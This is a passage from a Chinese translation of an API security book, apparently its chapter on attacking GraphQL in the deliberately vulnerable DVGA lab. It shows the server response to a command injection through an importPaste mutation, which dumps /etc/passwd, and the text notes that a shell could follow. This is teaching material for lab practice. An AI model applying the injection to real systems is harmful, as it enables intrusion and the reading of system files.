 列表 14-3：请求

```
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 1516
`--snip--`

{"data":{"importPaste":{"result":"<!DOCTYPE HTML PUBLIC \"-//IETF//DTD HTML 2.0//EN\">\n<html><head>\n<title>301 Moved Permanently</title>\n</head><body>\n
<h1>Moved Permanently</h1>\n<p>The document has moved <a href=\"https://test.com/\">here</a>.</p>\n</body></html>\**n**
**root:x:0:0:root:/root:/bin/ash\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nadm:x:3:4:adm:/var/adm:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nsync:x:5:0:sync:/sbin:/bin/sync\nshutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\nhalt:x:7:0:halt:/sbin:/sbin/halt\nmail:x:8:12:mail:/var/mail:/sbin/nologin\nnews:x:9:13:news:/usr/lib/news:/sbin/nologin\nuucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin\noperator:x:11:0:operator:/root:/sbin/nologin\nman:x:13:15:man:/usr/man:/sbin/nologin\npostmaster:x:14:12:postmaster:/var/mail:/sbin/nologin\ncron:x:16:16:cron:/var/spool/cron:/sbin/nologin\nftp:x:21:21::/var/lib/ftp:/sbin/nologin\nsshd:x:22:22:sshd:/dev/null:/sbin/nologin\nat:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin\nsquid:x:31:31:Squid:/var/cache/squid:/sbin/nologin\nxfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin\ngames:x:35:35:games:/usr/games:/sbin/nologin\ncyrus:x:85:12::/usr/cyrus:/sbin/nologin\nvpopmail:x:89:89::/var/vpopmail:/sbin/nologin\nntp:x:123:123:NTP:/var/empty:/sbin/nologin\nsmmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin\nguest:x:405:100:guest:/dev/null:/sbin/nologin\nnobody:x:65534:65534:nobody:/:/sbin/nologin\nutmp:x:100:406:utmp:/home/utmp:/bin/false**\n"}}}
```

列表 14-4：响应

你现在已经能够在 Linux 操作系统中以 root 用户身份执行所有命令。就这样，我们能够通过 GraphQL API 注入系统命令。从这里开始，我们可以继续利用这个命令注入漏洞枚举信息，或者使用命令获取系统的 shell。无论哪种方式，这都是一个非常重要的发现。干得好，成功利用了 GraphQL API！

## 总结

在这一章中，我们通过一些本书中讲解的技术，演示了如何攻击一个 GraphQL API。GraphQL 的工作方式与我们之前接触过的 REST API 不同。然而，一旦我们对 GraphQL 做了一些调整，我们就能够应用许多相同的技术，进行一些非常酷的攻击。不要被你可能遇到的新 API 类型吓倒；相反，拥抱这项技术，了解它的运作方式，然后尝试你已经学到的 API 攻击。

DVGA 还有几个漏洞我们在这一章没有覆盖。我建议你返回实验室，利用这些漏洞。在最后一章，我将展示一些涉及 API 的真实世界泄露和赏金案例。
